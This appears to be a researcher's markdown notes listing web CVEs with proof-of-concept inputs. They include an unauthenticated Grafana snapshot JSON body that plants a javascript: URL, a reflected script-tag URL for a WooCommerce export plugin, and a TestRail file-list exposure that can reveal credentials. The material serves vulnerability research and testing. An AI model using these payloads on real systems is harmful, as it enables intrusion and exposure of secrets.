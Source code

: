## CVE-2020-11022/CVE-2020-11023

https://vulnerabledoma.in/jquery_htmlPrefilter_xss.html

## CVE-2020-11110
https://ctf-writeup.revers3c.com/challenges/web/CVE-2020-11110/index.html

* version : Grafana v6.2.5

* authentication : v6.2.5 not required to be authenticated

* send post request to /api/snapshots with the following json body
```
{"dashboard":{"annotations":{"list":[{"name":"Annotations & Alerts","enable":true,"iconColor":"rgba(0, 211, 255, 1)","type":"dashboard","builtIn":1,"hide":true}]},"editable":true,"gnetId":null,"graphTooltip":0,"id":null,"links":[],"panels":[],"schemaVersion":18,"snapshot":{"originalUrl":"javascript:alert('Revers3c')","timestamp":"2020-03-30T01:24:44.529Z"},"style":"dark","tags":[],"templating":{"list":[]},"time":{"from":null,"to":"2020-03-30T01:24:53.549Z","raw":{"from":"6h","to":"now"}},"timepicker":{"refresh_intervals":["5s","10s","30s","1m","5m","15m","30m","1h","2h","1d"],"time_options":["5m","15m","1h","6h","12h","24h","2d","7d","30d"]},"timezone":"","title":"Dashboard","uid":null,"version":0},"name":"Dashboard","expires":0}
```





## CVE-2021-24169
WordPress Plugin Advanced Order Export For WooCommerce 3.1.7 - Reflected Cross-Site Scripting (XSS)

```
wp-admin/admin.php?page=wc-order-export&tab=</script><script>alert(1)</script>
```

## CVE-2021-40875 
Improper Access Control in Gurock TestRail versions ≤ 7.2.0.3014 results in sensitive file exposure

* /files.md5 file on the client side of a Gurock TestRail application, disclosing a full list of application files and the corresponding file paths. The corresponding file paths can be tested, and in some cases, result in the disclosure hardcoded credentials, API keys, or other sensitive data.


## CVE-2021-26084 
Remote Code Execution on Confluence Servers

https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md

